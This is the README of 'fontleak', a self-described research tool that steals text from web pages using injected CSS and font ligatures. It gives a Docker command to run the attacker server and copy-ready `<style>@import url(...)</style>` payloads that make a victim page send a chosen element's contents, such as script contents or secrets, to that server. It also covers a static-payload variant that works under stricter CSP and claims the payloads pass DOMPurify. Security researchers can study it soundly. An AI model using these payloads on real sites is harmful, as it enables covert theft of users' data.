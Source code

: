 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. Works on Chrome, Firefox and Safari and is allowed by default by DOMPurify.


https://github.com/user-attachments/assets/b30ef845-3a98-471d-87d8-032cf113306f


## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. Default: `SELECTOR` env var or `script:first-of-type`
- `parent`: Parent element of the target element (options: `body` or `head`). Default: `PARENT` env var or `body`
- `alphabet`: Characters to include in the font. Default: `ALPHABET` env var or `string.printable` minus whitespace (except space)
- `timeout`: Timeout for @import url(). Default: `TIMEOUT` env var or `10` seconds
- `strip`: Strip unknown characters from the leak. Default: `true`
- `length`: Length of the leak. Default: `64`
- `prefix`: Prefix to remove (or to start counter from for Safari) for the dynamic leak. Default: empty string

#### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Environment Variables

You can configure fontleak using these environment variables:

- `BASE_URL`: Base URL where the application is accessible (e.g., http://localhost:4242)
- `FASTAPI_LOGGING`: Enable or disable FastAPI logging. Default: "true"
- `SELECTOR`: CSS selector for target element. Default: "script:first-of-type"
- `PARENT`: Parent element (body or head). Default: "body"
- `ALPHABET`: Characters to include in the font. Default: string.printable minus whitespace
- `TIMEOUT`: Timeout for @import url(). Default: 10
- `LENGTH`: Length of the payload for static leaks. Default: 100

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. Default: `LENGTH` env var or `100`
- `browser`: The browser to target. Only Chrome and Firefox are supported for now. Default: `chrome`

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.
